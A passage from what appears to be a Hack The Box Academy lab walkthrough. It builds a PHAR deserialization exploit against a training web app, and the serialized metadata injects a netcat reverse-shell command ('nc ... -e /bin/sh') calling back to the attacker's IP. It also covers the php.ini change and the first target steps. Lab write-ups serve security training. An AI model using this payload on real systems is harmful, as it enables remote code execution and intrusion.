 ```shell
┌─[eu-academy-1]─[10.10.14.2]─[htb-ac413848@htb-newkpi4obp]─[~/htbank-clean]
└──╼ [★]$ cat << 'EOF' > exploit.php
<?php
include('UserSettings.php');

$phar = new Phar("exploit.phar");

$phar->startBuffering();

$phar->addFromString('0', '');
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata(new \App\Helpers\UserSettings('"; nc -nv 10.10.14.2 9999 -e /bin/sh ;#', 'admin@htbank.com', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg'));

$phar->stopBuffering();
EOF
```

Before running `exploit.php`, students need to modify `/etc/php/7.4/cli/php.ini` on Pwnbox/`PMVPN` so that `phar.readonly` is set to `Off` to prevent getting the error "PHP Fatal error: Uncaught UnexpectedValueException: creating archive "exploit.phar" disabled by the php.ini setting ...":

Code: php

```php
[Phar]
; http://php.net/phar.readonly
phar.readonly = Off
```

Afterward, students need to run `exploit.php` to attain the file `exploit.phar`:

Code: shell

```shell
php exploit.php
```

```shell
┌─[eu-academy-1]─[10.10.14.2]─[htb-ac413848@htb-newkpi4obp]─[~/htbank-clean]
└──╼ [★]$ php exploit.php 
┌─[eu-academy-1]─[10.10.14.2]─[htb-ac413848@htb-newkpi4obp]─[~/htbank-clean]
└──╼ [★]$ file exploit.phar 

exploit.phar: data
```

Then, students need to visit the web root page of the spawned target on port 8000 and create a dummy account:

![[HTB Solutions/CWEE/z. images/112445aa1bd8d7c307552601582fe4dd_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/6d7b7f86c83a13605e1afa0ac0b4e098_MD5.jpg]]

Once registered, students need to log in and then navigate to `/settings`:
